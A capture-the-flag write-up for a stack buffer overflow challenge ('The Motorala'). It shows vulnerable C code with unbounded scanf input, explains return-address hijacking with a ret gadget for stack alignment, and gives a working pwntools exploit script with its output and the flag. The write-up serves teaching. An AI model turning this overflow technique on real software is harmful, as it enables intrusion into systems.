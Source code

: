 ### The Motorala (84 Solves, 100 Pts)
The vulnerability in question lie in `chall.c`'s `login()` function.
```c
void view_message() {
	int fd = open("./flag.txt", O_RDONLY);
	char* flag = calloc(0x50, sizeof(char));
	read(fd , flag, 0x50);
	close(fd);
	slow_type("\n\e[1;93mAfter several intense attempts, you successfully breach the phone's defenses.\nUnlocking its secrets, you uncover a massive revelation that holds the power to reshape everything.\nThe once-elusive truth is now in your hands, but little do you know, the plot deepens, and the journey through the clandestine hideout takes an unexpected turn, becoming even more complicated.\n\e[0m");
	printf("\n%s\n", flag);
	exit(0);
}

void login() {
	char attempt[0x30];
	int count = 5;

	for (int i = 0; i < 5; i++) {
		memset(attempt, 0, 0x30);
		printf("\e[1;91m%d TRIES LEFT.\n\e[0m", 5-i);
		printf("PIN: ");
		scanf("%s", attempt);
		if (!strcmp(attempt, pin)) {
			view_message();
		}
	}
	slow_type("\n\e[1;33mAfter five unsuccessful attempts, the phone begins to emit an alarming heat, escalating to a point of no return. In a sudden burst of intensity, it explodes, sealing your fate.\e[0m\n\n");
}
```
Much like `Baby Goods`, `login()` allows us to overwrite the stack frame and modify our return address to point to `view_message()` directly once `login()` is done running.

Unfortunately, this does lead to a stack misalignment and as `view_message()` calls a `movabs` asm instruction call somewhere within it, this would lead to a `SIGSEGV` as the stack is misaligned by 8 bytes. We thus add a `ret` first before `view_message()` to realign the stack back to its proper position.

In essence, instead of doing ` <login_stack_frame> | <overwrite rbp> | &view_message`, we do ` <login_stack_frame> | <overwrite rbp> | &ret | &view_message`. We use the `ROPgadget` tool to obtain an address in the binary that essentially does `ret`, and so when `login()` ends, `ret` is first called as `login()` returns to a `ret;` call, which then looks at the next value in the stack, being `view_message()`, which is then called resulting in the flag being printed.

As we see here,
`sol.py`
```py
from pwn import *

r = remote('challs.nusgreyhats.org', 30211)
#r = process('./chall')
#gdb.attach(r, gdbscript="b*login+130")
view_message = 0x40138e
ret_gadget = 0x40101a
r.sendline(b'A'*72 + p64(ret_gadget) + p64(view_message))
r.interactive()
```

```sh
\x1b[1;94mLocked behind a PIN, you attempt to find a way to break into the cellphone, despite only having 5 tries.\x1b[

5 TRIES LEFT.
PIN:
\x1b[1;33mAfter five unsuccessful attempts, the phone begins to emit an alarming heat, escalating to a point of no return. In a sudden burst of intensity, it explodes, sealing your fate.\x1b[0m


\x1b[1;93mAfter several intense attempts, you successfully breach the phone's defenses.
Unlocking its secrets, you uncover a massive revelation that holds the power to reshape everything.
The once-elusive truth is now in your hands, but little do you know, the plot deepens, and the journey through the clandestine hideout takes an unexpected turn, becoming even more complicated.
\x1b[0m
grey{g00d_w4rmup_for_p4rt_2_hehe}

[*] Got EOF while reading in interactive
$
[*] Interrupted
[*] Closed connection to challs.nusgreyhats.org port 30211
```
